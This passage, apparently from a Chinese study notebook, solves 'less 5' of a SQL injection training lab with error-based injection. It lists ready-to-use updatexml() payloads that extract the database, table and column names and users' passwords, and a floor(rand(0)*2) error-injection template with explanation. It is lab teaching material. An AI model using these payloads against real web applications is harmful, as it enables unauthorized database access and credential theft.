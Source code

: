 
#### less 5 报错注入解法

##### 方法一

[参考](https://blog.csdn.net/qq_41420747/article/details/81836327)

##### 方法二

**爆库名**

```mysql
?id=1' and updatexml(1,concat('~',(select database() limit 0,1),'~'),3)--+
```

**爆表名**

```mysql
?id=1' and updatexml(1,concat('~',(select table_name from information_schema.tables where table_schema='security' limit 1,1),'~'),3)--+
```

**爆列名**

```mysql
?id=1' and updatexml(1,concat('~',(select column_name from information_schema.columns where table_name='users' limit 4,1),'~'),3)--+
```

**爆数据**

```mysql
?id=1' and updatexml(1,concat('~',(select password from users order by id limit 1,1),'~'),3)--+
```



### 其他手工注入

```mysql
and (select * from (select concat_ws("^",查询语句,floor(rand(0)*2))x,count(*) from information_schema.tables group by x)y) %23
```

**代码说明：**

> **floor()**是取整数
> **rand()**在0和1之间产生一个随机数
> **rand(0)*2**将取0到2的随机数，并不是执行两次随机数
> **floor(rand()*2)**有两条记录就会报错
> **floor(rand(0)*2)**记录需为3条以上，且3条以上必报错，返回的值是有规律的
> **count(*)**是用来统计结果的，相当于刷新一次结果
> **group by**对数据分组。时会先看看虚拟表里有没有这个值,若没有就插入,若存在则**count(*)**加1
> **group by时floor(rand(0)*2)**会被执行一次,若虚表不存在记录,插入虚表时会再执行一次
> ()后面的x或者y都是对表做的别名，将as省略了
> and后面超长的()不能去掉！！！

[floor()函数报错分析](https://blog.csdn.net/cried_cat/article/details/80022378)

#### 获取库名
